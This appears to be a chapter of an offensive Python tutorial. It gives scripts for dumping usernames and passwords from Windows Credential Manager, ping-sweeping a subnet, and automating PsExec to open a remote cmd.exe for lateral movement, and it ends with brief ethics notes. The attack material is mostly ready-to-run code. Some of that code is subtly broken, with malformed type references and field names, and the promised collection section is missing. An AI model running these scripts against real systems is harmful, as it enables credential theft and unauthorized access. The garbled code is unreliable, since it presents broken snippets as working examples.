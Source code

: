 # Chapter 8: Python for Credential Access, Discovery, Lateral Movement & Collection

## Overview

This chapter focuses on using Python for cybersecurity tasks, including credential access, network discovery, lateral movement, and data collection. These techniques are essential for understanding how attackers operate and how to defend against them.

---

## 1. Credential Access

### 1.1. Retrieving Stored Credentials

Python can be used to retrieve stored credentials from the Windows Credential Manager or other storage mechanisms.

#### Example: Accessing Windows Credentials

```python
import ctypes
from ctypes import wintypes

# Define necessary structures and constants
class CREDENTIAL_ATTRIBUTE(ctypes.Structure):
    _fields_ = [
        ("dwFlags", wintypes.DWORD),
        ("pszKeyword", wintypes.LPCWSTR),
        ("pszValue", wintypes.LPCWSTR),
    ]

class CREDENTIAL(ctypes.Structure):
    _fields_ = [
        ("dwVersion", wintypes.DWORD),
        ("pszCredentialType", wintypes.LPCWSTR),
        ("pszTargetName", wintypes.LPCWSTR),
        (" pszUsername", wintypes.LPCWSTR),
        (" pszPassword", wintypes.LPCWSTR),
        (" dwFlags", wintypes.DWORD),
        (" dwLastWritten", wintypes.ULARGE_INTEGER),
        ("credential_attributes", ctypes.POINTER(CREDENTIAL_ATTRIBUTE)),
        ("pszAuthenticationPackage", wintypes.LPCWSTR),
        (" pszTargetAlias", wintypes.LPCWSTR),
        (" pszSPN", wintypes.LPCWSTR),
    ]

def list_credentials():
    # Load the CredEnumerate function
    advapi32 = ctypes.WinDLL("Advapi32.dll")
    advapi32.CredEnumerateW.argtypes = [
        wintypes.LPCWSTR,
        wintypes.DWORD,
        ctypes.POINTER(wintypes DWORD),
        ctypes.POINTER(ctypes.POINTER(CREDENTIAL)),
    ]
    advapi32.CredEnumerateW.restype = wintypes BOOL

    # Enumerate credentials
    count = wintypes DWORD(0)
    credentials = ctypes.POINTER(CREDENTIAL)()
    result = advapi32.CredEnumerateW(None, 0, ctypes.byref(count), ctypes.byref(credentials))

    if result:
        for i in range(count.value):
            cred = credentials[i]
            print(f"Target: {cred.pszTargetName}")
            print(f"Username: {cred.pszUsername}")
            print(f"Password: {cred.pszPassword}\n")
    else:
        print("Failed to enumerate credentials.")

# Run the function
list_credentials()
```

### Notes:

- This code retrieves credentials stored in the Windows Credential Manager.
- It uses the `Advapi32.dll` library to interact with the credential store.
- Credentials are printed to the console, but in a real-world scenario, they would be handled securely.

---

## 2. Discovery

### 2.1. Network Discovery

Network discovery involves identifying active hosts and services on a network.

#### Example: Simple Ping Sweep

```python
import subprocess
import sys

def ping_sweep(subnet):
    for ip in range(1, 255):
        address = f"{subnet}.{ip}"
        print(f"Testing {address}...")
        result = subprocess.run(
            ["ping", "-n", "1", address],
            capture_output=True,
            text=True,
        )
        if "Reply from" in result.stdout:
            print(f"{address} is reachable.\n")

# Example usage
ping_sweep("192.168.1")
```

### Notes:

- This script performs a simple ping sweep on a given subnet.
- It uses the `subprocess` module to execute system commands.
- Modify the subnet to match your target network.

---

## 3. Lateral Movement

### 3.1. Using PsExec for Lateral Movement

PsExec is a tool from Sysinternals that can be used to execute commands on remote systems.

#### Example: Automating PsExec

```python
import subprocess
import os

def execute_psexec(target_ip, username, password, command):
    # Construct the PsExec command
    psexec_path = "psexec.exe"  # Path to PsExec executable
    command_template = f'"{psexec_path}" \\\\{target_ip} -u {username} -p {password} -d {command}'

    try:
        result = subprocess.run(
            command_template,
            shell=True,
            capture_output=True,
            text=True,
        )
        print(f"Command executed on {target_ip}")
        print(result.stdout)
    except Exception as e:
        print(f"Error: {e}")

# Example usage
execute_psexec("192.168.1.100", "user", "password", "cmd.exe")
```

### Notes:

- This script automates the use of PsExec for lateral movement.
- Ensure you have the `psexec.exe` file in your working directory.
- Use this responsibly and only in authorized environments.

---

## 5. Ethical Considerations

- Always obtain proper authorization before testing.
- Use these techniques only in authorized environments.
- Misuse of these tools can lead to legal consequences.
